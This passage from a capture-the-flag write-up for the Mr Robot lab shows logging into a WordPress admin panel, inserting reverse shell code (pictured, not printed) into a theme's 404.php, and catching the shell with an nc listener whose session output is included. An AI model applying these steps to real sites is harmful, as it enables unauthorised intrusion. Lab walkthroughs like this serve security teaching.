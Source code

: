 ### Accessing the admin panel

- Login using `Elliot:REDACTED` credentials to access the admin panel.

![Wordpress Admin panel](Images/mrrobotctf-admin.png)

---

## Reverse Shell

- Modify `404.php` or any other page of the theme and add **reverse shell code**.

![Adding Reverse Shell Code in 404.php](Images/mrrobotctf-404.png)

- Listen on the appropriate port using `nc` to obtain a reverse shell:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.25.251] 38633
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 09:14:25 up  1:10,  0 users,  load average: 0.01, 1.47, 4.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
daemon
```
